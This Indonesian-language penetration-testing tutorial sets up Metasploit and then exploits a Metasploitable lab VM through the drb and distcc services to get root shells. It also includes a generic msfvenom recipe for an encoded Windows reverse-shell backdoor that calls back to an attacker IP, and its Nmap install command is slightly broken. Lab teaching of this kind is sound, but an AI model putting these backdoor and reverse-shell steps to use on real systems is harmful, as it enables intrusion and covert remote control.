###PENDAHULUAN
Penetration Testing (disingkat pentest) adalah suatu kegiatan dimana seseorang mencoba mensimulasikan serangan yang bisa dilakukan terhadap jaringan organisasi / perusahaan tertentu untuk menemukan kelemahan yang ada pada sistem jaringan tersebut. Orang yang melakukan kegiatan ini disebut penetration tester (disingkat pentester). Penetration Testing mempunyai standar resmi sebagai acuan dalam pelaksanaannya. 

Penetration Testing memiliki standar (PTES) yang digunakan sebagai acuan dalam pelaksanaanya yang dibagi ke dalam beberapa tahap :

- **Pre-engagement Interactions**

Tahap dimana seorang pentester menjelaskan kegiatan pentest yang akan dilakukan kepada client (perusahaan). Disini seorang pentester harus bisa menjelaskan kegiatan-kegiatan yang akan dilakukan dan tujuan akhir yang akan dicapai.

- **Intelligence Gathering**

Tahap dimana seorang pentester berusaha mengumpulkan sebanyak mungkin informasi mengenai perusahaan target yang bisa didapatkan dengan berbagai metode dan berbagai media. Hal yang perlu dijadikan dasar dalam pengumpulan informasi adalah : karakteristik sistem jaringan, cara kerja sistem jaringan, dan metode serangan yang bisa digunakan.

- **Threat Modeling**

Tahap dimana seorang pentester mencari celah keamanan (vulnerabilities) berdasarkan informasi yang berhasil dikumpulkan pada tahap sebelumnya. Pada tahap ini seorang pentester tidak hanya mencari celah keamanan, tetapi juga menentukan celah yang paling efektif untuk digunakan.

- **Vulnerability Analysis**

Tahap dimana seorang pentester mengkombinasikan informasi mengenai celah keamanan yang ada dengan metode serangan yang bisa dilakukan untuk melakukan serangan yang paling efektif.

- **Exploitation**

Tahap dimana seorang pentester melakukan serangan pada target. Walaupun demikian tahap ini kebanyakan dilakukan dengan metode brute force tanpa memiliki unsur presisi. Seorang pentester profesional hanya akan melakukan exploitation ketika dia sudah mengetahui secara pasti apakah serangan yang dilakukan akan berhasil atau tidak. Namun tentu saja ada kemungkinan tidak terduga dalam sistem keamanan target. Walaupun begitu, sebelum melakukan serangan, pentester harus tahu kalau target mempunyai celah keamanan yang bisa digunakan. Melakukan serangan secara membabi-buta dan berharap sukses bukanlah metode yang produktif. Seorang pentester profesional selalu menyempurnakan analisisnya terlebih dahulu sebelum melakukan serangan yang efektif.

- **Post Exploitation**

Tahap dimana seorang pentester berhasil masuk ke dalam sistem jaringan target dan kemudian melakukan analisis infrastruktur yang ada. Pada tahap ini seorang pentester mempelajari bagian-bagian di dalam sistem dan menentukan bagian yang paling critical bagi target (perusahaan). Disini seorang pentester harus bisa menghubungkan semua bagian-bagian sistem yang ada untuk menjelaskan dampak serangan / kerugian yang paling besar yang bisa terjadi pada target (perusahaan).

- **Reporting**

Reporting adalah bagian paling penting dalam kegiatan pentest. Seorang pentester menggunakan report (laporan) untuk menjelaskan pada perusahaan mengenai pentesting yang dilakukan seperti : apa yang dilakukan, bagaimana cara melakukannya, resiko yang bisa terjadi dan yang paling utama adalah cara untuk memperbaiki sistemnya.

Penetration testing biasanya menggunakan sebuah tools khusus yang memang dirancang untuk menemukan kelemahan pada sebuah sistem. Tools yang umum digunakan adalah metasploit. Metasploit adalah sebuah framework yang berisi tools-tools yang diperlukan untuk melakukan penetration testing.

###Instalasi Metasploitable
####Install Oracle Java 8
```
sudo add-apt-repository -y ppa:webupd8team/java
sudo apt-get update
sudo apt-get -y install oracle-java8-installer
```








####Install Dependencies
```
sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev libreadline5 libsqlite3-dev libpcap-dev git-core autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer libyaml-dev curl zlib1g-dev
```


####Install Ruby
```
curl -sSL https://rvm.io/mpapis.asc | gpg2 --import -
curl -L https://get.rvm.io | bash -s stable
source ~/.rvm/scripts/rvm
echo "source ~/.rvm/scripts/rvm" >> ~/.bashrc
source ~/.bashrc
RUBYVERSION=$(wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/.ruby-version -q -O - )
rvm install $RUBYVERSION
rvm use $RUBYVERSION --default
ruby -v
```





####Install Nmap
```
mkdir ~/Development
cd ~/Development
git clone 
cd nmap https://github.com/nmap/nmap.git
./configure
make
sudo make install
make clean
```


####Config Postgre SQL Server
```
sudo -s
su postgres
```
Create user and database
```
createuser msf -P -S -R -D
createdb -O msf msf
exit
exit
```

####Install Metasploit Framework
```
cd /opt
sudo git clone https://github.com/rapid7/metasploit-framework.git
sudo chown -R `whoami` /opt/metasploit-framework
cd metasploit-framework
```

```
cd metasploit-framework

# If using RVM set the default gem set that is create when you navigate in to the folder
rvm --default use ruby-${RUByVERSION}@metasploit-framework

gem install bundler
bundle install
```
```
cd metasploit-framework
sudo bash -c 'for MSF in $(ls msf*); do ln -s /opt/metasploit-framework/$MSF /usr/local/bin/$MSF;done'
```

####Install Armitage
```
curl -# -o /tmp/armitage.tgz http://www.fastandeasyhacking.com/download/armitage150813.tgz
sudo tar -xvzf /tmp/armitage.tgz -C /opt
sudo ln -s /opt/armitage/armitage /usr/local/bin/armitage
sudo ln -s /opt/armitage/teamserver /usr/local/bin/teamserver
sudo sh -c "echo java -jar /opt/armitage/armitage.jar \$\* > /opt/armitage/armitage"
sudo perl -pi -e 's/armitage.jar/\/opt\/armitage\/armitage.jar/g' /opt/armitage/teamserver
```
create database.yml
```
sudo nano /opt/metasploit-framework/config/database.yml
```
copy YAML entries
```
production:
 adapter: postgresql
 database: msf
 username: msf
 password: [some password here]
 host: 127.0.0.1
 port: 5432
 pool: 75
 timeout: 5
```
```
sudo sh -c "echo export MSF_DATABASE_CONFIG=/opt/metasploit-framework/config/database.yml >> /etc/profile"

source /etc/profile
```

####Running Metasploit
```
msfconsole
```

###EKSPLOITASI
####Eksploitasi dengan drb_remote_codeexec
jalankan Metasploitable pada virtualbox, set network pada host-only



scan dengan nmap pada jaringan host-only yang sedang aktif
```
nmap -sP [network host only]
```


maka akan didapatkan host yang aktif (kemungkinan adalah vm metasploitable)
scan menggunakan nmap untuk mengetahui port yang terbuka
```
nmap -sV [IP address target]
```





atau lebih detail dengan menggunakan
```
nmap -p 1-65535 -A [IP address target]
```


target untuk exploit **drb_remote_codeexec** adalah berada pada port **8787** 

####Eksploitasi dengan drb_remote_codeexec

Untuk melakukan serangan pertama buka **msfconsole** kemudian kita gunakan perintah seperti gambar dibawah ini:




Penjelasan perintah tersebut adalah sebagai berikut:
>Exploit : exploit/linux/misc/drb_remote_codeexec
>Payload : cmd/unix/reverse
>druby : ip target

Exploit tersebut akan mengeksekusi port 8787 yang dibuka oleh service drb_remote. Kemudian exploit tersebut akan membuka koneksi dengan penyerang dan membuka shell korban. Shell langsung menjalankan dengan privilege root. Maka setelah melakukan exploit akan didapatkan hasil seperti dibawah ini :



Setelah itu penyerang dapat melakukan apapun dalam shell korban seperti di bawah :






####Eksploitasi dengan distcc_exec

Untuk melakukan serangan pertama buka **msfconsole** kemudian kita gunakan perintah seperti gambar dibawah ini:



Penjelasan perintah tersebut adalah sebagai berikut:
>Exploit : exploit/unix/misc/distcc_exec
>Payload : cmd/unix/bind_ruby
>RHOST : ip target

Exploit tersebut akan mengeksekusi port 3632 yang dibuka oleh service *distccd*. Kemudian exploit tersebut akan membuka koneksi dengan penyerang dan mebuka shell dari korban. Namun shell tersebut masih menjalankan dengan privilege daemon, sehinggga kita harus menjalankan sebuah *rootkit* untuk mendapat privilege root. Untuk mendapatkannya kita mendownload dari website exploit-db seperti gambar.



Setelah itu kita membuat session netcat dengan membuka terminal baru dan melakukan compile pada rootkit tersebut untuk menjalankannya.


Setelah itu, kita menjalankan rootkit yang telah dikompile untuk mendapatkan hak akses root.



####Membuat backdoor Untuk Sistem Operasi Windows
Cara membuat backdoor untuk Sistem Operasi Windows. Untuk melakukannya kita membutuhkan tools **msfconsole** dan juga **msfvenom** untuk membuat backdoor.

Buat backdoor dengan menggunakan perintah:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip_penyerang LPORT=port -f exe -e x86/shikata_ga_nai -i 10 > backdoor.exe

```

Perintah diatas akan membuat sebuah file **.exe** yang jika dieksekusi akan membuat sebuah koneksi dengan IP penyerang menggunakan port 4444.


Setelah itu kita membuka tools **msfconsole** yang digunakan untuk melihat dan melihat terminal yang terbuka. Perintah yang digunakan dapat dilihat pada gambar dibawah ini:


Penjelasan dari gambar diatas adalah:
```
exploit: exploit/multi/handler
payload: windows/meterpreter/reverse_tcp
LHOST: listen host
LPORT: lister port
```

Exploit yang digunakan memungkinkan penyerang mendapatkan shell dari komputer korban jika backdoor tersebut dieksekusi. Payload yang digunakan untuk bekerja pada sistem Operasi Windows. Listen host adalah alamat IP dari penyerang agar backdoor dapat melakukan komunikasi dengan korban. Listen port adalah port yang terbuka untuk melakukan koneksi dengan korban,

Setelah korban mengeksekusi backdoor tersebut maka shell dari korban dapat diakses melalui komputer penyerang.

